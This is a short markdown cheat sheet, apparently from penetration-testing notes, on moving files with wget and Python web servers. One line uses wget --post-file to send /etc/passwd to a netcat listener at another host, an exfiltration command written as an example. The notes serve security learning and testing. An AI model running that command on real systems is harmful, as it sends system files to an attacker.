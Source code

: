 # Wget

## Download from Site

```bash
wget http://<ip>/file.txt
```

## Set up Netcat Listener to Push File

```bash
wget --post-file=/etc/passwd 192.168.0.1:8081 (netcat port)
```

## Python2

```bash
python -m SimpleHTTPServer 80
```

## Python3

```bash
python3 -m http.server 80
```
